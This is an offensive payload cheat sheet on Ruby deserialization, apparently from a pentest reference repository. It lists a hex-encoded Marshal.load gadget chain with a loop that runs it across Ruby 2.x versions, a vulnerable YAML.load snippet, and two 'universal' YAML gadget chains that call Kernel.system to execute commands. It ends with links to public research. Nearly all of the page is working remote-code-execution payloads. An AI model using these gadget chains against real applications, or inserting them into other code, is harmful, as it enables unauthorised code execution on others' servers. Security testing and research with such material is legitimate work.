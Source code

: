 # Ruby Deserialization

## Summary

* [Marshal.load](#marshalload)
* [Yaml.load](#yamlload)
* [References](#references)


## Marshal.load

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## Yaml.load

Vulnerable code
```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Universal gadget for ruby <= 2.7.2:
```ruby
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

Universal gadget for ruby 2.x - 3.x.

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```


## References

- [Ruby 2.X Universal RCE Deserialization Gadget Chain - Luke Jahnke - November 8, 2018](https://www.elttam.com.au/blog/ruby-deserialization/)
- [Universal RCE with Ruby YAML.load - Etienne Stalmans (@_staaldraad) - March 2, 2019](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
- [Ruby 2.x Universal RCE Deserialization Gadget Chain - PentesterLab - 2024](https://pentesterlab.com/exercises/ruby_ugadget/course)
- [Universal RCE with Ruby YAML.load (versions > 2.7) - Etienne Stalmans (@_staaldraad) - January 9, 2021](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)
- [Blind Remote Code Execution through YAML Deserialization - Colin McQueen - June 9, 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)